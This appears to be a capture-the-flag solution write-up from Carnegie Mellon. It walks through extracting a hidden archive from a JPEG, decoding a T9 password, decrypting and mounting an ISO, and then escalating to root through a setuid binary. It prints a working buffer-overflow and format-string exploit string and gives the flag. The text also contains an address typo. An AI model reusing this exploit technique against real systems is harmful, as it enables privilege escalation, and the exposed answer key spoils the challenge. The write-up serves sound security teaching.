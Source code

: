 <img src="../../../../../logo.png" height="250px">

# Thx 4 Axing

## Solution

The user is given a picture of an axe (`CHALLENGE.JPEG`). In a terminal, use
`binwalk` to extract files hidden inside the image:

```
$ binwalk --extract CHALLENGE.JPEG

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
3932          0xF5C           Zip archive data, at least v2.0 to extract,
compressed size: 12901292, uncompressed size: 12899322, name: CHALLENGE.gpg
12905378      0xC4EBA2        End of Zip archive

$ cd _CHALLENGE.JPEG.extracted/
$ ls
CHALLENGE.gpg  F5C.zip
```

The `binwalk` program extracted the `F5C.zip` file embedded in the original
`CHALLENGE.JPEG`, and then automatically uncompressed it, extracting the
final result in the form of `CHALLENGE.gpg`.

Using `strings` on the `F5C.zip` file will show a note appended at the end,
containing a hint about a possible password we might use on `CHALLENGE.gpg`:

```
$ strings F5C.zip
...
Decode the password:
18 24 34 47 34 47 18 24 23 17 12 47 47 19 36 37 13 39 36 28 47 23 23 25
```

The password is a T9 encoding on a cellphone keyboard (shown below):

<img src="keypad.png" height="100px">

The encoding scheme is: `18 = press 8 once`; `24 = press 4 twice`, etc. The
decoded password is `thisisthepasswordyouseek`.

Decrypt `CHALLENGE.gpg` with the password:

```
$ gpg --passphrase thisisthepasswordyouseek CHALLENGE.gpg
...
$ ls
CHALLENGE  CHALLENGE.gpg  F5C.zip
```

The decrypted challenge file is an ISO:

```
$ file CHALLENGE
CHALLENGE: ISO 9660 CD-ROM filesystem data 'CDROM'
```

You can mount the ISO to a new folder of your choice:

```
$ mkdir new
$ sudo mount CHALLENGE ./new
$ ls new/
asus_jffs  cifs2  etc_ro  lib  opt     rom       sbin     tmp  www
bin        dev    home    mmc  proc    root      sys      usr
cifs1      etc    jffs    mnt  ra_SKU  rr_moved  sysroot  var
```

There are a bunch of files named `vuln` scattered throughout this file system,
so we must look for one that is a valid ELF executable:

```
$ find new/ -name vuln -exec file {} +
new/asus_jffs/vuln:   setuid data
new/bin/vuln:         setuid data
new/etc_ro/vuln:      setuid data
new/jffs/vuln:        setuid data
new/proc/vuln:        setuid data
new/rom/dlna/vuln:    setuid data
new/rom/etc/vuln:     setuid data
new/sbin/vuln:        setuid data
new/tmp/vuln:         setuid data
new/usr/bin/vuln:     setuid data
new/usr/local/vuln:   setuid data
new/usr/sbin/vuln:    setuid ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0,
BuildID[sha1]=6933ed17af39cf8d3ba35e9c8767cd78bb01447b, not stripped
new/usr/vuln:         setuid data
new/www/userRpm/vuln: setuid data
new/www/vuln:         setuid data
```

At this point, the challenge relies on competitors having limited `sudo`
access (mount filesystems, but not start a root shell). The `new/usr/sbin/vuln`
program is owned by `root` and has the `setuid` flag enabled, which means it
runs with `root` privileges when executed by unprivileged users. The goal is
to exploit a buffer overflow and a format string vulnerability to get the
program to print out the flag as GPS coordinates.

As it is, running `strings` on the `vuln` binary divulges the string
`/root/flag.txt`, which we immediately guess must contain the flag we are
after. If access to the challenge machine is limited, competitors would have
to continue exploiting the vulnerable binary.

Executing the program to see what happens, we get:

```
$ cd new/usr/sbin/
$ ./vuln
What is your name?
hello
hello
```

The program has a buffer overflow and format string vulnerabilities. Use the
following string to exploit the program and revela the flag:

```
python -c "print '\x40\xa0\x04\x08\x44\xa0\x04\x08ijklmnopqrstuvwxyz'*4 + 'ABCDEFGH\x16\x86\x04\x08' + 'A'*4000 + '%7\$n' +'A'*450 + '%8\$n'" > string2
```

This is a python program to generate the exploit string and write it to a file.
The exploit string starts with two program addresses. These are variables that
need to be overwritten. Then some characters to fill up the buffer, then an
address to return to, followed by some more letters and a format string. More
details below.

### Buffer Overflow Vulnerability
The buffer overflow will be exploited such that the vulnerable function will
return to `0x08048616`. This is the address of function `a()`, which will print
the flag.

### Format String Vulnerability
In order for function `a()` to print the flag, certain conditions need to be
met with a few variables. Those variables have addresses `0x0804a040` and
`0x8040a044` as seen in the beginning of the exploit string.

The addresses will be the 7th and 8th variables on the stack when `printf()`
is called without a format string given. By using `%7$n`, the `printf()` call
will write a number (the number of characters output so far) to that address
location. This will set the variable's value to that number. In order for the
conditions to be met, `v1` must be bigger than 4000 and `v2` must be negative.
The values in the exploit string are such that those conditions are met.

Successful exploitation and causing the variables to meet the required
conditions will result in the program using its `suid` root privileges to
print the contents of the otherwise "inaccessible" file `/root/flag.txt`.


<br><br>

Flag - `40°42'24''N 74°0'40''W`

## License
Copyright 2020 Carnegie Mellon University. See the [LICENSE.md](../../../LICENSE.md) file for details.
